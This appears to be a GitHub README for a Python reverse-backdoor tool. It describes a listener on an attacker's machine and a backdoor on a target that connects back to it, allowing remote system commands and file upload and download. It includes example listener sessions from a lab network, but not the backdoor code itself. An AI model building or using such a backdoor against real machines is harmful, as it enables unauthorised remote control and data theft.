

# Reverse backdoor

This tool is an example of the concept behind backdoors, written in Python 3.

It consists of two scripts, a listener and the backdoor. 
- **The listener** is run from the hacker's computer and accepts two arguments as input. First is the source-ip which is the ip of the hacker's computer, and a port number.
- **The backdoor** from the target computer. The same ip and port number from the listener are hardcoded in the backdoor.

When the listener is running it is waiting for an incoming connection. After the backdoor is run connection is established enabling the execution of system commands.

Custom commands that are implemented are cd, download, upload, and exit.

Limitation: not all system commands that consist of multiple arguments can be executed.

**Development environment:**
- Kali Linux 64-bit
- Kernel 5.4.0-kali3-amd64
- Python 3.7.6

------------

## Example of how to use

1. run the listener
```bash
python3 listener.py
[+] Please enter source-ip and port
Enter source-ip: 10.0.2.15
Enter port number: 4443
[+] Waiting for incoming connections...
```

2. The backdoor is executed, and the listener has now established connection and can execute system commands
```bash
[+] Connection established with... ('10.0.2.21', 49716)
>> [enter command here]
```

4. Enter system command
```bash
>> tree /f
Folder PATH listing for volume Windows 10
Volume serial number is B4A6-FEC6
C:.
    flower.jpg
	flower2.jpg
	reverse_backdoor.py
	sample.txt
	
No subfolders exist
```
###  Example result


------------